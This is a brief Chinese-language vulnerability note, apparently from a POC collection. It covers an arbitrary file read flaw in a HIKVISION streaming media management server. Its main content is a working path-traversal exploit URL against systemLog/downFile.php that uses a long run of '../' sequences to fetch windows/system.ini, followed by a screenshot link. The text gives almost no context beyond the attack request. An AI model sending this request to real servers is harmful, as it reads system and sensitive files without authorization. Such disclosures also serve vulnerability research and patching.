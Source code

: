 # HIKVISION 流媒体管理服务器 后台任意读取

## 漏洞描述

通过文件遍历漏洞获取敏感信息

## 漏洞POC

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![hiv-6.png](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205071021508.png)
